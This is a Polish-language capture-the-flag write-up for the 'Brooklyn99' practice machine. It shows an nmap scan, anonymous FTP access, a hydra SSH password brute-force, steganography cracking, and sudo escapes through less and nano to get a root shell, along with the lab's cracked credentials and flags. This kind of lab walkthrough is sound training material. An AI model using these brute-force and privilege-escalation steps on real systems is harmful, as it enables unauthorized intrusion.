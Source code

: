 # Brooklyn99 CTF
IP=10.10.118.60

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.118.60
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-07-13 05:54 EDT
Nmap scan report for 10.10.118.60
Host is up (0.075s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.231.66
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.80 seconds
```

Zostały wykryte trzy porty, port 21 i port 80 są najciekawsze ze względu na potencjalne zagrożenia bezpieczeństwa.

## Skanowanie (pierwsza możliwa droga do zdobycia flag)

### Port 21
Rozpoczynamy od sprawdzenia portu 21. Ze skanu wynika, ze logowanie Anonymous jest dozwolone. Logujemy się do serwisu i pobieramy znalezioną tam notatkę:

```
ftp 10.10.118.60
```

```
anonymous:anonymous
```

![FTP](img/FTP.JPG)

## Eksploitacja

Z notatki wynika, że hasło użytkownika Jake jest słabe. Spróbujmy to wykorzystać przeprowadzając atak brute-force na serwis SSH za pomocą hydry: 

```
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.118.60
```

![Cred](img/Cred.JPG)

Następnie logujemy się do serwisu ssh z pomocą poniższych danych do logowania:

```
ssh jake@10.10.118.60
```

```
jake:987654321
```

![SSH](img/SSH.JPG)

W katalogu domowym użytkownika holt znajdujemy pierwszą flagę:

![Flag1](img/Flag1.JPG)

```
ee11cbb19052e40b07aac0ca060c23ee
```

## Zwiększenie poziomu uprawnień

Widzimy, że użytkownik jake może wykonać komendę less: 

![Less](img/Less.JPG)

Wykorzystujemy [exploita](https://gtfobins.github.io/gtfobins/less/), aby zdobyć uprawnienia root'a:

![Exploit1](img/Exploit1.JPG)

```
sudo less /etc/profile
!/bin/sh
```

W pliku root.txt znajdujemy drugą flagę:

![Flag2](img/Flag2.JPG)

```
63a9f0ea7bb98050796b649e85481845
```

## Skanowanie (druga możliwa droga do zdobycia flag)

### Port 80
Rozpoczynamy od sprawdzenia portu 80. Na stronie jest umieszczone zdjęcie nawiązujące do tytułu tego ctf'a:

![80](img/80.JPG)

W źródle strony znajdujemy podpowiedź:

![Steg](img/Steg.JPG)

## Eksploitacja

Pobieramy to zdjęcie i łamiemy hasło za pomocą narzędzia stegcracker:

```
stegcracker brooklyn99.jpg
```

![Stegcracker](img/Stegcracker.JPG)

Używamy hasła do wyciągnięcia ukrytych imformacji z pobranego pliku:

```
steghide extract -sf brooklyn99.jpg
```

![Steghide](img/Steghide.JPG)

Logujemy się do systemu za pomocą ssh:

```
ssh holt@10.10.118.60
```

```
holt:fluffydog12@ninenine
```

![Holt](img/Holt.JPG)

W katalogu domowym użytkownika holt znajdujemy pierwszą flagę:

![Flag1](img/Flag1.JPG)

```
ee11cbb19052e40b07aac0ca060c23ee
```

## Zwiększenie poziomu uprawnień

Widzimy, że użytkownik holt może wykonać komendę nano: 

![Nano](img/Nano.JPG)

Wykorzystujemy [exploita](https://gtfobins.github.io/gtfobins/nano/), aby zdobyć uprawnienia root'a:

![Sudo](img/Sudo.JPG)

Zgodnie z instrukcją wpisujemy "sudo nano", następnie klikamy CTRL + R oraz CTRL + X. Po wpisaniu "reset; sh 1>&0 2>&0" i zatwierdzeniu enter'em zdobywamy uprawnienia root:

![Flag2v2](img/Flag2v2.JPG)

W pliku root.txt znajdujemy drugą flagę:

```
63a9f0ea7bb98050796b649e85481845
```

Do zobaczenia na kolejnych CTF-ach!



